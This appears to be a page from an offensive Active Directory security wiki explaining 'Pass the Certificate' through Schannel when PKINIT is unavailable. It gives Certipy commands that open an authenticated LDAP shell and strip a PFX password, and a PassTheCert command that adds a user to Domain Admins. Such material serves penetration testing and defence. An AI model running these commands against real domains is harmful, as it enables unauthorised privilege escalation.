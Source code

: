 # Pass the Certificate - Schannel

## Theory

In cases where a Domain Controller does not support [PKINIT](../../../ad/movement/kerberos/pass-the-certificate.md), you may encounter the **`KDC_ERR_PADATA_TYPE_NOSUPP`** error when trying to authenticate. For a KDC to support PKINIT, its certificates must include the **`Smart Card Logon`** EKU.

Fortunately, we can still use [Schannel SSP (Security Service Provider)](https://learn.microsoft.com/en-us/windows-server/security/tls/tls-ssl-schannel-ssp-overview) to authenticate ourselves using a certificate. Schanel is the SSL/TLS implementation from Microsoft in Windows and can be used to authenticate servers and clients and then use the protocol to encrypt messages between the authenticated parties. **Several protocols including LDAP support it**.

{% hint style="success" %}
* Schannel authentication relies on TLS so it is, by design, not subject to channel binding, as the authentication is borne by TLS itself.
* Schannel is not subject to LDAP signing either as the `bind` is performed after a StartTLS command when used on the LDAP TCP port.
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
Authentication via Schannel is supported by [Certipy](https://github.com/ly4k/Certipy). lt will open a connection to LDAPS and drop into an interactive shell with limited LDAP commands

```bash
certipy auth -pfx <PATH_TO_PFX_CERT> -username <user> -domain <DOMAIN_FQDN> -ldap-shell -ldap-scheme ldaps -dc-ip $DC_IP
[*] Connecting to 'ldaps://10.10.10.10:636'
[*] Authenticated to '10.10.10.10' as: u:CONTOSO.LOCAL\Administrator
Type help for list of commands

# help
```

{% hint style="info" %}
Notes that Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file.

```bash
certipy cert -export -pfx <PATH_TO_PFX_CERT> -password <CERT_PASSWORD> -out <unprotected.pfx>
```
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
Pass the certificate trough Schannel can be done with [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) (C# version).&#x20;

```powershell
# Add simple_user to Domain Admins (it assumes that the domain account for which the certificate was issued, holds privileges to add user to this group)
.\PassTheCert.exe --server fqdn.domain.local --cert-path Z:\cert.pfx --add-account-to-group --target "CN=Domain Admins,CN=Users,DC=domain,DC=local" --account "CN=simple_user,CN=Users,DC=domain,DC=local"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.thehacker.recipes/ad/movement/schannel/passthecert" %}
